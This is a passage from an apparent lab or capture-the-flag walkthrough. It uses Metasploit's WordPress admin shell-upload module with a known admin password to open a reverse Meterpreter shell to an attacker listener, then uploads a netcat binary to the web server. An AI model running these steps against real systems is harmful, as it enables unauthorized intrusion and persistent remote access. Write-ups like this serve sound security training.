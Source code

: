 The administrative access can be leveraged through the msfmodule `exploit/unix/webapp/wp_admin_shell_upload`, to get a meterpreter shell on the system.

```
msf > use exploit/unix/webapp/wp_admin_shell_upload
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set PASSWORD P@s5w0rd!
PASSWORD => P@s5w0rd!
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set USERNAME admin
USERNAME => admin
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set TARGETURI /wordpress
TARGETURI => /wordpress
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set RHOSTS 10.10.10.29
RHOSTS => 10.10.10.29
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set LHOST 10.10.15.4
LHOST => 10.10.15.4
msf6 exploit(unix/webapp/wp_admin_shell_upload) > run
[*] Started reverse TCP handler on 10.10.15.4:4444 
[*] Authenticating with WordPress using admin:P@s5w0rd!...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wordpress/wp-content/plugins/PMOoqwMKUM/mOTztKAzjR.php...
[*] Sending stage (39282 bytes) to 10.10.10.29
[*] Meterpreter session 2 opened (10.10.15.4:4444 -> 10.10.10.29:51398) at 2021-03-11 21:17:09 -0500
[!] This exploit may require manual cleanup of 'mOTztKAzjR.php' on the target
[!] This exploit may require manual cleanup of 'PMOoqwMKUM.php' on the target
[!] This exploit may require manual cleanup of '../PMOoqwMKUM' on the target

meterpreter > 
[+] Deleted mOTztKAzjR.php
[+] Deleted PMOoqwMKUM.php

meterpreter >
```

A netcat binary is uploaded to the machine for a more stable shell. 

#### Netcat

Let's use the following commands:

```bash
meterpreter > lcd /home/username/Downloads
```

lcd stands for "Local Change Directory", which we use to navigate to the local folder where nc.exe is located.

```bash
meterpreter > cd C:/inetpub/wwwroot/wordpress/wp-content/uploads
meterpreter > upload nc.exe
[*] uploading  : /home/kali/Downloads/nc.exe -> nc.exe
[*] Uploaded -1.00 B of 58.00 KiB (-0.0%): /home/kali/Downloads/nc.exe -> nc.exe
[*] uploaded   : /home/kali/Downloads/nc.exe -> nc.exe
```
